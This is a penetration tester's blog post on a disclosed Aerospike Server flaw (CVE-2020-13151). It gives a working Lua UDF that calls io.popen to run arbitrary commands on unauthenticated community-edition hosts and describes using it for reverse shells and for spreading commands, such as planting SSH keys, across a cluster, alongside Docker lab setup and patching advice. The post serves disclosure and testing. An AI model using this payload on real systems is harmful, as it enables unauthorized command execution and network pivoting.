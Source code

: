 ```yaml
---
layout: post
title:  "CVE-2020-13151 POC: Aerospike Server Host Command Execution"
toc: true
date:   2020-06-18
categories: network-pentest
---
```


# Motivation 

I recently disclosed CVE-2020-13151 to Aerospike after finding that I could execute commands against the underlying aerospike database hosts during an engagement. If you find an unpatched version of Aeropike server during testing, there may be a quick shell available. Depending on what else the hosts are used for this can be a good pivot point in the network.

# Prerequisites

- An unpatched (< VERSION_OF_PATCH) community edition Aerospike server instance. 

Authentication is not offered on the community edition making the attack very simple. I was unable to test this attack on the enterprise edition, so if you find one on an engagement, you'll need to experiment a bit (and probably obtain some credentials).

# Exploiting

**tl;dr**
scripted exploit tool is here: [linkylink](linkylink)

Again, this was only tested on the server community edition as I didn't have access to the enterprise version. A nicety from an attacker point-of-view is that the community edition does not allow for authentication, making this attack very easy.

To show how it works, I'll walk through a manual way to run the attack, though I've created a some tooling around it here [here](linkylink).

This attack is possible due to inusfficient blacklisting of functions in lua UDFs. Aerospike seems to have (sensibly) blocked `os.execute` calls during UDF execution, however the same precautions do not appear to be in place for `io.popen`.

Consider the following UDF, which when registered will allow us to execute and display the results of a command whichever host in the cluster ends up executing the function.  

```lua
function runCMD(rec, cmd)
    local outtext = ""
    local phandle = io.popen(cmd)
    io.input(phandle)
    local foo = io.lines()
    for f in foo do
        outtext = outtext .. f .. "\n"
    end
    return outtext
end
```

Once connected to the cluster (again, no auth in the community edition), we can register our udf:
![](/screens/aero-register-udf.png)

Create a single-record test dataset to operate on:
![](/screens/aero-create-table.png)

And then execute commands on whichever host ended up hosting our record:
![](/screens/aero-execute-cmd.png)

In a large enough cluster an attacker could create a much larger dataset and repeatedly execute the commands against different records which would have the effect of spraying the command around the cluster (which would be fun for dropping ssh keys, for example).


# Try it out 

I've written a tool which injects records into the target cluster and then executes the desired commands.

It can be used to obtain a reverse shell:

![](/screens/aero-revshell.png)

Or just to issue arbitrary commands:

![](/screens/aero-cmdexec.png)

You can grab the tool [here](linkylink) and experiment with it against a local docker setup:

```bash

# start up a single-node aerospike instance
docker run --rm -d --name aerospike -p 3000:3000 -p 3001:3001 -p 3002:3002 -p 3003:3003 aerospike:4.9.0.5

# if you want to issue commands against the server interactively, 
# fire up a client to interact with the server (also dockerized)
# changing the --host IP as necessary
docker run -v `pwd`:/share -ti --name aerospike-aql --rm aerospike/aerospike-tools aql --host 172.17.0.2 --no-config-file
```


# If You're Defending

Patch and firewall off backend servers if you're on the community edition (ideally, they should only respond to the web apps fronting them). If you're on the enterprise version, ensure you have strong authentication and minimize permission and access.
